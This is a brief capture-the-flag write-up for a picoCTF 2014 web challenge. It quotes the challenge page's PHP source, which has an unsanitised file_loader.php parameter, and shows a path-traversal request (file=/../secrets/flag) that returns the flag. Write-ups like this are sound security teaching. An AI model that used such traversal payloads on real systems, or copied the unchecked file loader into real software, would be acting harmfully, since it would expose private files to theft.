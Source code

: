 # Potentially Hidden Password - 100

```
This Daedalus Corp. website loads images in a rather odd way... [Source Code]
```

Source:

````
<html>
  <head>
    <title>Daedalus Corperation - Headquarters</title>
    <link rel="stylesheet" type="text/css" href="bootstrap.min.css">
  </head>
  <style>
    .zone {
       width: 300px;
    }
  </style>
  <body>
    <nav class="navbar navbar-default" role="navigation">
      <div class="container-fluid">
	<div class="navbar-header">
	  <img src="daedalus.png" style="height: 80px"><span style="margin-left: 10px; font-size: 19px;line-height: 21px;height: 60px;">Daedalus Corperation</span>
	</div>
      </div>
    </nav>
    <div class="container">
      <div class="row">
	<div class="col-md-12">
	  <?php
	     $config_file = fopen("/resources/config/admin_mode.config", "r");
	     if (fgets($config_file) === "true") {
	        $flag_file = fopen("/resources/secrets/flag", "r");
	        echo fgets($flag_file);
	        flose($flag_file);
	     }
	     fclose($config_file);
       	   ?>
	</div>

	<h2>Daedalus Headquarters</h2>
	<p>Our wonderful headquarters has many awesome rooms!</p>
	<center>
	  <img src="file_loader.php?file=zone1.jpg" class="zone"/>
	  <img src="file_loader.php?file=zone2.jpg" class="zone"/>
	  <img src="file_loader.php?file=zone3.jpg" class="zone"/><br><br>
	  <img src="file_loader.php?file=zone4.jpg" class="zone"/>
	  <img src="file_loader.php?file=zone5.jpg" class="zone"/>
	  <img src="file_loader.php?file=zone6.jpg" class="zone"/><br>
	</center>
      </div>
    </div>
  </body>
</html>
```

if (fgets($config_file) === "true") then we can read the flag.
But I also notice that file_loader.php?file=zoze6.jpg... 

Hm...It does some qurying. Lets see if we can use this to go up the directory.

```
http://web2014.picoctf.com/potentially-hidden-password-3878213/file_loader.php?file=/../secrets/flag

i_like_being_included
```

Wala! There is our flag:

```
Flag:i_like_being_included
```

After all it was unncessary to meet that condition. 
